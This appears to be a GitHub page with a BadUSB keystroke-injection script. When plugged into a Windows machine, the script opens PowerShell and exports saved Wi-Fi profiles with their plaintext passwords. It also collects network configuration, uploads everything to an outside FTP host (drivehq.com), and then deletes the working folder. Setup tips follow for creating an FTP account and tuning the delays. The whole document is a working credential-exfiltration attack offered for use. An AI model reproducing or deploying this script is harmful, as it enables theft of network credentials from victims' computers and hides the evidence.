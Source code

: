 ### This script get all info about wifi and password of saved networks and remove the directory used

    DELAY 1000
    GUI r
    DELAY 300
    STRING powershell
    ENTER
    DELAY 700
    STRING cd $ENV:UserProfile
    DELAY 100
    ENTER
    STRING mkdir tmp
    ENTER
    DELAY 800
    STRING cd tmp
    ENTER
    DELAY 800
    STRING netsh wlan export profile key=clear
    ENTER
    DELAY 1500
    STRING ipconfig > ipc.txt
    ENTER
    DELAY 600
    STRING netstat -r > nr.txt
    ENTER
    DELAY 600
    STRING ftp ftp.drivehq.com
    ENTER
    DELAY 300
    STRING USERNAME_FTP_DRIVEHQ
    ENTER
    DELAY 300
    STRING PASSWORD_FTP_DRIVEHQ
    ENTER
    DELAY 300
    STRING prompt
    ENTER
    DELAY 400
    STRING mput *.*
    ENTER
    DELAY 300
    STRING quit
    ENTER
    DELAY 300
    STRING cd ..
    ENTER
    STRING Remove-Item -Recurse -Force tmp
    ENTER
    STRING exit
    ENTER

*  This code works well in my PC (if you need adjust delays)
*  Make a free frp account here: https://www.drivehq.com
*  Change (of course) your username & password